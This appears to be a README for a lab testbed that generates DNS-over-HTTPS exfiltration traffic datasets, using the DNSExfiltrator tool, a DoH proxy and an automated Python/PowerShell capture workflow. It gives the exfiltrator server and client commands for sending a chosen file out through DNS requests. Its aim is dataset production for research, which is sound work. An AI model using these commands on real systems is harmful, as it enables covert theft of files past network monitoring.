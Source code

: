 # Installation of the testbed network

Please, refer to the PDF file named: "_DNSExfiltrator_testbed_network_configuration.pdf_".

# Manual usage 

**If you are using "Internal Network" option in VirtualBox, connect during few seconds VMs on Internet before return in Internal Network configuration**. It seems to be needed on each first run of the DoH server machine.

## DNSExfiltrator Server

Run the DNSExfiltrator server side before the client side:

```
# cd DNSExfiltrator
# python dnsexfiltrator.py -d [domain] -p [password]
```

The option _-p [password]_ allow to specify which password use for the encryption of the communication (mandatory).

(**WARNING**: Do not have the same username between client and server for file exfiltration, this does not seem to work)

## DoH proxy on Windows (if you want DoH communication, else go directly to next point about client)

Run the proxy (2 manners):

_In anaconda prompt_:
```
> conda activate DoH_proxyConda
(DoH_proxyConda)> doh-stub --listen-address [addressListeningHost] --listen-port [listeningPort] --domain [domainNameResolver] --cafile [pathToCertificateFile]
```

**OR**:

_In Command prompt_:
```
> C:\Users\$USER\anaconda3\condabin\conda.bat run -n DoH_proxyConda doh-stub --listen-address [addressListeningHost] --listen-port [listeningPort] --domain [domainNameResolver] --cafile [pathToCertificateFile]
```

## DNSExfiltrator Client (Windows)

In /DNSExfiltrator/ with a powershell:

```
> Import-Module .\Invoke-DNSExfiltrator.ps1
> Invoke-DNSExfiltrator -i [fileToExtract] -d [domain] -p [password] -s [address_where_to_send_dns_requests] -t [delayInMilliseconds]
```

The file extracted is transfered into a zip file but not timestamped.

The address of the server can be the address of the machine where the proxy is or the one of the machine of the server side of DNSExfiltrator.


# Automated production of dataset with DNSExfiltrator

## C&C communication process with DNSExfiltrator and DoH (automated)

![Testbed network](DNSExfiltrator_testbed_network.png)

All dataset production with DNSExfiltrator is managed from the Windows machine. We run a python script which contact Debian Server machine via SSH using its domain name.

As indicated in the DNSExfiltrator Github documentation (https://github.com/Arno0x/DNSExfiltrator), we first need to run the server side of DNSExfiltrator. This is run as a background task by using the _dtach_ library in the Root account, in order to not interrupt the Python script execution. We can communicate with this server side via a socket we've created (see code).<br>
Next, we can launch the DoH proxy called "_doh-proxy_" (https://github.com/facebookarchive/doh-proxy). Thanks to the certificate passed as a parameter downloaded from the DoH server machine after its configuration, the proxy connects to the Local DoH resolver. It listens for requests on the indicated port (53) and retransmits them in HTTPS to the Local DoH resolver. **It's imperative to launch a connection within about 20 seconds, otherwise the connection between the proxy and the Local DoH resolver will be closed. If this exceeds the time limit, the process has to be killed and restarted**.<br>
Finally, the client side of DNSExfiltrator is runned by using a powershell script named "_dnsexfiltratorScript.ps1_" which is a self-made Python script and we specify the public IP address of the Windows Client machine and port destination (53) to send DNS requests to the DoH proxy (the proxy doesn't seem to work when the loopback address and port 53 are mentioned). If all goes well, communication is established and packets are exchanged every time depending of the delay specified.

All the traffic is captured by the victim machine to have the traffic between the victim and the local DoH resolver.

## Running the process

- Pay attention that all the machines can communicate with each other in the same network (NAT network)
- Put the code files needed on the Windows machine:
    - constants.py
    - dnsexfiltrator_main_insitu.py
    - dnsexfiltratorScript.ps1
    - local_dnsexfiltrator_scenarios.json
    - utils.py
- Put the "_dnsexfiltratorScript.ps1_" in the Documents Folder
- Execute the Python script file "_dnsexfiltrator_main_insitu.py_" if you want to run the process with: `$ python dnsexfiltrator_main_insitu.py`
- Kill the process by using "_CTRL+C_" and the process has been coded to end when a communication is ended in order to not disturb the capture of traffic and have problems.

Please, refer to the code if you want to modify the request maximum size to execute and delay between each DNS request.